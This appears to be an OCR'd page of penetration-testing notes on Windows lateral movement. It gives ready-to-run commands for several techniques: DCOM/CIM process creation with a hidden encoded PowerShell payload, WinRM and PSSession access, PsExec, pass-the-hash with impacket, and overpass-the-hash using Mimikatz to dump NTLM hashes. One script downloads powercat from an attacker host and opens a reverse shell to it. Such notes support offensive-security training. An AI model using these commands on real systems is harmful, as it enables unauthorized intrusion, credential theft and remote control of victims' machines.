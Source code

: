 ```
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString; 
// Create and Invoke New Session
$options = New-CimSessionOption -Protocol DCOM  
$session = New-Cimsession -ComputerName <IP> -Credential $credential - SessionOption $options  
$command = 'powershell -nop -w hidden –e <base64-encoded-payload>'; 
Invoke-CimMethod -CimSession $session -ClassName Win32_Process -MethodName Create -Arguments
```
- **WinRM**
    - Requirement – Credentials of member of Administrators local group, which can also be domain user.
	- It communicates through port 5985(HTTP) and 5986(HTTPS).
	- `Kali> evil-winrm -i <IP> -u <username> -p <password>`
	- Alternative - `PS> winrs -r:<IP> -u:<username> -p:<password> "<command>"`
	- Alternative - Powershell script
	```
	// Prepare Credentials in proper format
	$username = '<username>'; 
	$password = '<password>'; 
	$secureString = ConvertTo-SecureString $password -AsPlaintext -Force; 
	$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
	// Create and Invoke New Session
	New-PSSession -ComputerName <IP> -Credential $credential 
	Enter-PSSession 1
	```
	- Another alternative
	```
	// Prepare Credentials in proper format
	$password = '<password>'; 
	$secureString = ConvertTo-SecureString $password -AsPlaintext -Force; 
	$credential = New-Object System.Management.Automation.PSCredential('<domain>\<username>', $secureString);
	// Create and Invoke New Session
	$session = New-PSSession -ComputerName <IP> -Credential $credential 
	Invoke-Command -Session $session -ScriptBlock {IEX(New-Object System.Net.WebClient).DownloadString('http://<Attacker-IP>/powercat.ps1'); powercat -c <Attacker-IP> -p 4444 -e powershell}
	Disconnect-PSSession -Session $session
	Remove-PSSession -Session $session
	```
- **PsExec**
    - Requirements - This method is only valid if we have credentials of member of Local Administrator Group. In addition, the ADMIN$ share must be writable and File and Print Sharing has to be turned on. Previously mentioned settings are default configurations for member of Local Administrator Group.
	- It communicates via smb ports - 139, 445.
	- `Kali> impacket-psexec <domain>/<username>:<password>@<Target-IP>`
	- Alternative - `PS> ./PsExec64.exe -i \\<IP> -u <domain>/<username> -p <password> <command>`
- **Pass the Hash (PtH)**
    - Requirement - Credentials of member of Administrators local group (writable ADMIN$ and File and Printer Sharing turned on).
	- It communicates via smb ports - 139, 445.
	- `Kali> impacket-psexec -hashes 00000000000000000000000000000000:<NTLM-Hash> <username>@<Target-IP>`
	- `Kali> impacket-wmiexec -hashes 00000000000000000000000000000000:<NTLM-Hash> <username>@<Target-IP>`
- **Overpass the Hash**
    - Requirements - Credentials of member of Administrators local group.
	- With overpass the hash, we can “over” abuse an NTLM user hash to gain a full Kerberos Ticket Granting Ticket (TGT). Then we can use the TGT to obtain a Ticket Granting Service (TGS). The essence of the overpass the hash lateral movement technique is to turn the NTLM hash into a Kerberos ticket and avoid the use of NTLM authentication.
	- Get NTLM Hash of Administrators group user
		- `Mimikatz> privilege::debug`
		- `Mimikatz> sekurlsa::logonpasswords` → get user’s NTLM Hash
	- `Mimikatz> sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<ntlm-hash> /run:powershell`
        - `/run` : process to create